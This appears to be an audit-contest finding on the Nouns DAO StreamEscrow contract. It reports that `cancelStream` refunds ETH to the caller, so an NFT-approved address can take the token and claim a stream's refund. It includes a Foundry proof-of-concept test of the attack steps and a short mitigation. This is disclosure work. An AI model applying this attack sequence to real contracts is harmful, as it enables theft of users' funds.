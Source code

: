 Proud Bronze Alpaca

High

# any nft approved by the user can cancel Stream and steal user eth

### Summary

any one who had approved by the user can cancel Stream and steal user eth .

### Root Cause

the `cancelStream` allow the user to cancel the stream , however it did not refund the user his eth , but the one who call the funtion . 

```solidity
    function cancelStream(uint256 nounId) public {
        ...snip...
        // transfer noun to treasury
        nounsToken.transferFrom(msg.sender, nounsRecipient, nounId);
        ...snip...
        (bool sent, ) = msg.sender.call{ value: amountToRefund }('');
        require(sent, 'failed to send eth');
    }
```
a nft approved by the user can send the nft to his self and call `cancelStream` since the function not refund the eth to one who own the stream or the creator he can get the eth . an approved can only transfer nft but `StreamEscrow` contract allow then to steal user eth who had stream.

https://github.com/sherlock-audit/2024-11-nounsdao/blob/8b6fb94f103134e751cf016e5c3f4185be89bb49/nouns-monorepo/packages/nouns-contracts/contracts/StreamEscrow.sol#L167C5-L186C6

### Internal pre-conditions

1.attacker need an approve for the nft.
2.user create stream.

### External pre-conditions

1.user want to cancel the stream.
2.attacker fornt-run `cancelStream`.
3.attacker send nft to him self.
4.attacker call `cancelStream` and get user eth.

### Attack Path

_No response_

### Impact

loss of user fund.

### PoC

```solidity
function test_cancelStream() public {
        vm.prank(streamCreator);
        escrow.forwardAllAndCreateStream{ value: 1 ether }({ nounId: 1, streamLengthInTicks: 100 });
        vm.prank(streamCreator);
        nounsToken.transferFrom(streamCreator, user, 1);
        address attacker = makeAddr("Attacker");
        vm.prank(user);
        nounsToken.approve(address(escrow), 1);
        vm.prank(user);
        //@audit we need an approve
        nounsToken.approve(attacker, 1);
        vm.prank(attacker);
        //@audit we transfer token to us
        nounsToken.transferFrom(user, attacker, 1);
        vm.startPrank(attacker);
        nounsToken.approve(address(escrow), 1);
        escrow.cancelStream(1);
    }
```

### Mitigation

only refund the eth to the owner of stream.